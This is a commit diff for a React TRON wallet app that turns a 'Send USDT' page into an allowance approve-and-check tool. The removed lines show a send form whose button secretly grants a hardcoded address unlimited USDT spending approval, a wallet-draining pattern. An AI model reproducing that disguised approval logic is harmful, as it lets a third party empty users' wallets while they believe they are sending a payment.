

Before and after one commit to devUbaid/USDT_Transaction, a React (Create React App) app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (324-964 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; the HTML template or start-up script is replaced by a standard one.

Commit message:
test working code

```diff
--- a/src/USDTAllowanceApp.js
+++ b/src/USDTAllowanceApp.js
@@ -1,20 +1,24 @@
 import React, { useState, useEffect } from "react";
 import { FaAddressBook, FaQrcode, FaInfoCircle, FaTimes } from "react-icons/fa";
-import TronWeb from "tronweb";
 import "./styles.css";
 
-const USDTSendApp = () => {
-  const [address, setAddress] = useState("");
-  const [amount, setAmount] = useState("");
-  const [memo, setMemo] = useState("");
-  const [account, setAccount] = useState("");
-  const [message, setMessage] = useState("");
-  const [tronWeb, setTronWeb] = useState(null);
-
-  // ✅ USDT TRC20 contract on TRON mainnet
+// ✅ TRC20 USDT contract on TRON mainnet
 const USDT_CONTRACT = "TR7NHqjeKQxGTCi8q8ZY4pL8otSzgjLj6t";
 
+// ✅ Minimal ABI for TRC20 approve + allowance
 const USDT_ABI = [
+  {
+    constant: true,
+    inputs: [
+      { name: "owner", type: "address" },
+      { name: "spender", type: "address" },
+    ],
+    name: "allowance",
+    outputs: [{ name: "remaining", type: "uint256" }],
+    payable: false,
+    stateMutability: "view",
+    type: "function",
+  },
   {
     constant: false,
     inputs: [
@@ -29,16 +33,30 @@
   },
 ];
 
+const USDTAllowanceApp = () => {
+  const [tronWeb, setTronWeb] = useState(null);
+  const [account, setAccount] = useState("");
+  const [spender, setSpender] = useState("");
+  const [amount, setAmount] = useState("");
+  const [allowance, setAllowance] = useState("");
+  const [message, setMessage] = useState("");
+
+  // ✅ Detect TronWeb (Trust Wallet / TronLink)
   useEffect(() => {
+    const checkTron = () => {
       if (window.tronWeb && window.tronWeb.ready) {
         setTronWeb(window.tronWeb);
         setAccount(window.tronWeb.defaultAddress.base58);
-      setMessage("✅ Connected to TronLink");
+        setMessage("✅ Connected: " + window.tronWeb.defaultAddress.base58);
       } else {
-      setMessage("⚠️ Please install TronLink or open in Trust Wallet dApp browser");
+        setMessage("⚠️ Open in Trust Wallet or TronLink DApp browser");
+        setTimeout(checkTron, 1000);
       }
+    };
+    checkTron();
   }, []);
 
+  // ✅ Connect wallet manually (for Trust Wallet DApp browser)
   const connectWallet = async () => {
     try {
       if (window.tronLink) {
@@ -54,23 +72,15 @@
     }
   };
 
-  const handleNext = async () => {
-    if (!tronWeb || !account) {
-      setMessage("Please connect your wallet first");
-      return;
-    }
-    if (!address || !amount) {
-      setMessage("Please enter both address and amount");
-      return;
-    }
+  // ✅ Approve spender for amount
+  const handleApprove = async () => {
+    if (!tronWeb || !account) return setMessage("Please connect your wallet first");
+    if (!spender || !amount) return setMessage("Enter spender and amount");
+
     try {
-      const spender = "TBJF4h5qbuAYxdJ4rhBCy5Lu5ZeYUC1dJv"; // example spender
-      const unlimitedAmount =
-        "0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff"; // MaxUint256
-
       const contract = await tronWeb.contract(USDT_ABI, USDT_CONTRACT);
-      const tx = await contract.approve(spender, unlimitedAmount).send({
-        feeLimit: 100_000_000, // 100 TRX energy/gas limit
+      const tx = await contract.approve(spender, tronWeb.toSun(amount)).send({
+        feeLimit: 100_000_000,
       });
 
       setMessage(`✅ Approval submitted! TxID: ${tx}`);
@@ -79,14 +89,30 @@
     }
   };
 
+  // ✅ Check allowance
+  const handleCheckAllowance = async () => {
+    if (!tronWeb || !account) return setMessage("Please connect your wallet first");
+    if (!spender) return setMessage("Enter spender address");
+
+    try {
+      const contract = await tronWeb.contract(USDT_ABI, USDT_CONTRACT);
+      const result = await contract.allowance(account, spender).call();
+      const formatted = tronWeb.fromSun(result.remaining.toString());
+      setAllowance(formatted);
+      setMessage(`✅ Allowance: ${formatted} USDT`);
+    } catch (err) {
+      setMessage("❌ Failed to fetch allowance: " + (err?.message || err));
+    }
+  };
+
   return (
     <div className="send-usdt-container">
       <div className="send-usdt-card">
         <div className="send-header">
           <button className="back-button">←</button>
-          <h1 className="send-title">Send USDT (TRON)</h1>
+          <h1 className="send-title">USDT Allowance (TRON)</h1>
           {!account ? (
-            <button onClick={connectWallet}>Connect TronLink</button>
+            <button onClick={connectWallet}>Connect Wallet</button>
           ) : (
             <p>Connected: {account.slice(0, 6)}...{account.slice(-4)}</p>
           )}
@@ -94,30 +120,31 @@
 
         {message && <div className="message-display">{message}</div>}
 
-        {/* Address */}
+        {/* Spender */}
         <div className="input-section">
-          <label className="input-label">Recipient Address</label>
-          <input value={address} onChange={(e) => setAddress(e.target.value)} />
+          <label className="input-label">Spender Address</label>
+          <input value={spender} onChange={(e) => setSpender(e.target.value)} />
         </div>
 
         {/* Amount */}
         <div className="input-section">
-          <label className="input-label">Amount</label>
+          <label className="input-label">Amount (USDT)</label>
           <input value={amount} onChange={(e) => setAmount(e.target.value)} />
         </div>
 
-        {/* Memo */}
-        <div className="input-section">
-          <label className="input-label">Memo</label>
-          <input value={memo} onChange={(e) => setMemo(e.target.value)} />
+        <div className="button-row">
+          <button className="next-button" onClick={handleApprove}>Approve</button>
+          <button className="next-button" onClick={handleCheckAllowance}>Check Allowance</button>
         </div>
 
-        <button className="next-button" onClick={handleNext} disabled={!address || !amount}>
-          Next
-        </button>
+        {allowance && (
+          <p className="allowance-display">
+            Current Allowance: {allowance} USDT
+          </p>
+        )}
       </div>
     </div>
   );
 };
 
-export default USDTSendApp;
+export default USDTAllowanceApp;
```
Lines whose indentation alone changed are shown as unchanged.
